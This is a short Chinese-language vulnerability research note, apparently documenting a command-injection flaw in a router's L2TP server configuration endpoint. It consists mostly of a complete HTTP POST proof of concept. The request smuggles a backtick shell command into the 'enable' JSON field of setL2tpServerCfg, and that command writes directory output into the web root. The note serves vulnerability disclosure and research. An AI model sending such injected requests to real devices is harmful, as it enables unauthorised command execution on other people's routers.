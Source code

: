 

一大堆。。。 就看是不是以前有的了。。

应该没有。因为溯源也不好找调用点，，楽。。。

![image-20241029115840139](./X6000R/images/image-20241029115840139.png)

### `enable`

```
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 230
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"`ls >/web/poc_l2tp_enable.txt`","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
